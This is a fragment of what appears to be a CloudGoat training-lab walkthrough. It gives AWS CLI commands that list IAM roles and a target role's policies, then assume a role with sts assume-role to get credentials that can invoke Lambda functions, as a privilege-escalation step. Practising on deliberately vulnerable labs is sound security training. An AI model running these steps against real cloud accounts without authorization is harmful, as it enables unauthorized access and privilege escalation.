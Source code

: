  <img src="/images/cloud/vullam1.png">
</p>

* List all roles, assume a role for privesc.

```bash
#This command will list all the roles in your account, one of which should be assumable. 
aws --profile bilbo --region us-east-1 iam list-roles | grep cg-
# This command will list all policies for the target role
aws --profile bilbo --region us-east-1 iam list-role-policies --role-name [cg-target-role]
# This command will get you credentials for the cloudgoat role that can invoke lambdas.
aws --profile bilbo --region us-east-1 sts assume-role --role-arn [cg-lambda-invoker_arn] --role-session-name [whatever_you_want_here]
```
<p align="center">